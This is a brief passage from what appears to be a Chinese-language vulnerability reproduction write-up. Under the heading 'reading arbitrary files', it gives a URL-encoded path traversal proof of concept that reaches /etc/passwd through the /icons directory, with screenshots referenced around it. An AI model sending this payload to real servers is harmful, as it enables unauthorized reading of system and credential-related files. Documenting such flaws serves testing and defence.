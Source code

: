 ![img](assets/wps13.jpg) 

#### 1.4.3.2.**读取任意文件**

在GET处插入POC，用来读取任意文件，但是需要注意/icons必须是一个存在且可访问的目录。

```
POC：/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](assets/wps14.jpg) 
